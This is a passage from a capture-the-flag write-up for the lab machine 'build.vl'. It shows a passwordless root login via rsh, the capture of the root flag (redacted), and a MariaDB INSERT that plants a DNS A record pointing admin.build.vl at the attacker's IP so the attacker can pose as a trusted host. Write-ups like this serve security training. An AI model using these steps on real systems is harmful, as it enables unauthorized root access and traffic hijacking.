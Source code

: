 Now we can use either `rlogin` or `rsh` to login as root on the target without a password!

```shell
└─$ rsh root@build.vl               
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-105-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat May 11 08:53:05 PM UTC 2024

  System load:  0.189453125       Users logged in:                  0
  Usage of /:   62.6% of 9.75GB   IPv4 address for br-f8002c9d7234: 172.18.0.1
  Memory usage: 58%               IPv4 address for docker0:         172.17.0.1
  Swap usage:   0%                IPv4 address for ens5:            10.10.83.17
  Processes:    141


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@build:~# 
```

We can get the root flag.

```shell
root@build:~# ls
root.txt  scripts  snap
root@build:~# cat root.txt
VL{<REDACTED>}
```

Note that it's also possible the add the record from the MariaDB shell directly, bypassing the need to crack the `admin`'s hash and adding it from the web interface:

```shell
MariaDB [powerdnsadmin]> INSERT INTO `records` (`domain_id`,`name`,`type`,`content`,`ttl`,`prio`,`disabled`,`ordername`,`auth`) VALUES (1,'admin.build.vl','A','10.8.1.246',60,0,0,NULL,1);
Query OK, 1 row affected (0.027 sec)
```
